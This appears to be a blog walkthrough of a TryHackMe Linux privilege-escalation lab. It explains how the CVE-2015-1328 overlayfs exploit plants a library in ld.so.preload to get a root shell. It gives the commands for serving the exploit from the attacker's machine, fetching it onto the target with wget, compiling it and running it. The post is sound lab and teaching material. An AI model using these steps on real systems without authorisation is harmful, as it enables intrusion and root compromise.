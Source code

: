 Kernel exploit methodology is simple:
1. Identify teh kernel version
2. Search and find an exploit code for the kernel version of teh target system
3. Run the exploit.

It's often easiest to just google for existing exploit code, sometimes automatic scanners can be useful but they can give both false positives and false negatives.

Note that **it is important to understand how the exploit code works BEFORE you launch it**, it could potentially make irreversible changes to the OS or cause other problems. So even if you are in a LAB environment (such as the machines on THM) try to get the habit of checking and understanding the kernel exploits (and all for that matter, but especially the kernel exploits). 

---

**Q: Find and use the appropriate kernel exploit to gain root privileges on the target system**  

Let's start with the "find" part. If you run `uname -a` you get the same kernel as in the previous task, and you can therefore use **CVE-2015-1328**. If you want to understand this CVE a little better stay tuned for the planned CVE-2015-1328 Deep Dive post where I explore it in more detail. 

>**Short summary of CVE-2015-1328**  
 In essence the exploit code creates a malicious lib entry to the `ld.so.preload` file. It is a file containing a list of ELF shared objects to be loaded before any program, so it essentially causes the specified libraries to be preloaded for all programs executed on the system[^1]. By adding a malicious library to ld.so.preload that opens a root shell, the exploit ensures that this library is executed first, granting the attacker a root shell before any other program can run. The ld.so.preload file is only writable as root, this is where the core of the exploit comes in. The exploit abuses a vulnerability in using _user namespaces_ in combination with _overlayfs_ to bypass these restrictions. 

From what you can see, "all" that happens when you run the exploit is that a root shell is loaded before all other programs, which should not cause any harm to the operating system. So let's use it!

>**Reflection**  
From a detection standpoint, it probably won't be too hard for the system administrators to figure out that the system has been compromised since it (hopefully) will be detected by a IDS or HIPS. Also this exploit has a system wide impact and other users can gain root access by running programs that use preloaded libraries. 

Start by downloading the exploit from your source of choice, I downloaded from exploitDB. 

Use for example `python3 -m http.server 8080` on your machine to allow the target machine to retrieve the file. 

On the target host navigate to `/home/matt`. You will see that there is a flag1.txt file here but you don't have permission to see it. Run `wget http://MACHINE_IP:8080/ofs.c` (given that the exploit file is called ofs.c) in this directory. You should now have downloaded the file to the target machine. Compile it using `gcc ofs.c -o ofs` which should give you an executable file called "ofs". Start the exploit by running `./ofs`.  You should now be able to show the content of flag.txt!

---

**Q: What is the content of the flag1.txt file?**
<details><summary>Answer</summary></details>

## Task6: Privilege Escalation: Sudo
The sudo command allows a user to run a program with root privileges, system administrators can regulate who has access to which program using sudo. You can check the current root privileges using the `sudo -l` command.


[^1]: <https://man7.org/linux/man-pages/man8/ld.so.8.html>